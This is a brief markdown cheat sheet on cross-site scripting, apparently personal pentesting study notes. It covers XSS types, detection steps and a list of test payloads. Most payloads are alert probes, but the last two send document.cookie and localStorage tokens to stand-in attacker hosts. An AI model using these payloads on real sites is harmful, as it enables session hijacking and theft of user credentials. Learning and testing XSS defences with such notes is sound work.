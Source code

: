 
### XSS 
Types of XSS
 - Stored: saving xss as like a comment in a dba
 - Reflected: causing css through a url, like a flash
 - DOM: input from use is stored in dom, similar to reflected by using like the location (hash #) portion to exploit
 
Process to detect
 1. Figure out where it goes, Does it get embedded in a tag or a string in a script? 
 2. Special handling.  Url turned into links?
 3. How are special characters handle "<>;:'`
 
Good scripts to try
 - `"><h1>test</h1>` - will show up well on the page
 - '+alert(1)+'
 - "onmouseover="alert(1)
 - http://"onmouseover="alert(1)
 - hello <a name="n" href="javascript:alert('xss')">*you*</a>
 - '><img src=x onerror=alert(1);> or <img src=x onerror=alertHello!> or <b onclick=alert(1)>click me!
 - "><SCRIPT>var+img=new+Image();img.src="http://hacker/"%20+%20document.cookie;</SCRIPT>

<img src=’https://<attacker-server>/yikes?jwt=’+JSON.stringify(localStorage);’--!>
